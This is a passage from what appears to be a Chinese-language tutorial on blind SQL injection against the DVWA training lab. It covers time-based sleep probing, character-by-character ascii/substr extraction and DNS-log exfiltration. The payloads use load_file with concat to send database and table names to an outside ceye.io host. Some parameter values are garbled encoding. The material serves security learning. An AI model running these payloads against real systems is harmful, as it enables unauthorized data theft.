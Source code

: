 0x4:无报错信息

可能无法判断是否存在注入(实际中不会有类似黑色部分提醒),后续判断是否存在注入，通过sleep判断服务器是否存在访问延迟,如果存在,说明存在盲注(这里可以参考之前发的SQL Inject Cheat sheet).

```php+HTML
id=1%27%20and%20sleep(10)--+&Submit=%C3%83%C2%A6%C3%82%C2%8F%C3%82%C2%90 %C3%83%C2%A4%C3%82%C2%BA%C3%82%C2%A4#
```

![](/images/DNS_Log/dvwa2.png)

0x5:其他手工检测

在介绍SQL的时候我们知道可以通过ascii、substr等函数进行一个一个字符进行判断,但,我们知道那样效率太低.

如:判断数据库中第一张表的第一个字符的ascii码:

```sql
id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1))=103--+&Submit=Ã¦ÂÂÃ¤ÂºÂ¤#
```

![](/images/DNS_Log/dvwa3.png)

0x6:DNS Log检测

登录平台,清理DNS Query查询

![](/images/DNS_Log/ceye4.png)

0x7:构造payload

```sql
id=1' and if((select load_file(concat('\\\\',(select database()),'.u7tu9q.ceye.io\\abc'))),1,1)--+ URL:id=1' and if((select load_file(concat('\\\\',(select database()),'.u7tu9q.ceye.io\\abc'))),1,1)--+ &Submit=Ã¦ÂÂÃ¤ÂºÂ¤#
```

![](/images/DNS_Log/dvwa4.png)

0x8:查询结果

如下图得知:

![](/images/DNS_Log/ceye5.png)

0x9:其他payload

获取信息可以通过修改常规注入时payload一致.

```sql
id=1' and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema="dvwa" limit 0,1),'.u7tu9q.ceye.io\\abc'))),1,1)--+ &Submit=Ã¦ÂÂÃ¤ÂºÂ¤#
```

![](/images/DNS_Log/dvwa5.png)

![](/images/DNS_Log/ceye6.png)
